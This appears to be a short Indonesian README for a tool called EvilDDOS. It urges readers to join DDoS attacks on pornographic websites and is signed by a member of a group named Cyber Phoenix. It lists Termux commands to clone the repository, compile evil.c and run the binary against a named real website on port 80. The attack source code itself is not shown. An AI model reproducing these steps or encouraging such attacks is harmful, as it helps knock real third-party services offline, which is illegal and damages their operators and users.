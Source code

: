 # EvilDDOS

TERUS MELUNCURKAN SERANGAN DDOS TERUTAMA SITUS" PORN,
AYO GABUNG BERSAMA MELAKUKAN SERANGAN DDOS TERHADAP SITUS-SITUS PORN SALAM FROM MEMBER CYBER PHOENIX🙏

```$ pkg update && pkg upgrade

$ pkg install python2

$ pkg install git

$ pkg install clang

$ git clone https://github.com/story19/EvilDDOS

$ cd EvilDDOS

$ clang evil.c -o evil

$ chmod +x evil

$ ./evil www.xnxx.com 80
